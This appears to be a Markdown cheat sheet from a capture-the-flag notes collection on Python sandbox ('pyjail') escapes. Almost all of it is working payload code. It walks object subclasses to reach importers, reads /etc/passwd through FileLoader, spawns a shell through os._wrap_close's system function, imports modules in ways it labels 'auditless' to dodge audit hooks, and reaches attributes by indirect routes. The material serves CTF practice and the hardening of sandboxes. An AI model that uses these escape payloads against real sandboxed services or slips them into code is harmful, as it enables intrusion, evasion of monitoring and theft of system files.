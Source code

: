 # Pyjail

## **Building Blocks**

### Getting object
```py
[].__class__.__mro__[1]
....__class__.__base__
```

### Interesting object subclasses
```py
# 84: BuiltinImporter    -- the actual indices depend on version and arch
>>> object.__subclasses__()[84]
# 94: FileLoader
>>> object.__subclasses__()[94]('', '').get_data('/etc/passwd')
>>> object.__subclasses__()[94]('', './').contents()
['dir-traversal.md', 'jinja2.md', 'lfi.md', 'pyjail.md', 'rsa.md']
# -5: os._wrap_close [137 Linux / 134 Windows]
>>> object.__subclasses__()[-5].close.__globals__['system']('sh')
```

### Importing modules
```py
# Getting BuiltinImporter
>>> __loader__
>>> sys.__loader__
```
```py
__import__('os')
```
```py
BuiltinImporter.load_module('os') # auditless!
```
```py
_imp = sys.modules['_imp']
spec = lambda: None
spec.name = 'builtins'
spec.origin = None
builtins = _imp.create_builtin(spec) # auditless!
```

### Accessing attributes
```py
getattr(obj, 'attr')
vars(obj)['attr']
obj.__dict__['attr']
obj.__getattribute__('attr')
object.__getattr__(obj, 'attr')
```
```py
from string import Formatter
Formatter().get_field("0.__class__", [1337], kwargs={})[0]
```
```py
match obj:
    case Class(attr=v):
        print('obj.attr =', v)
```
```py
try:
    '{0.__class__.thisdoesntexist}'.format(1337)
except AttributeError as e:
    print(e.obj)
```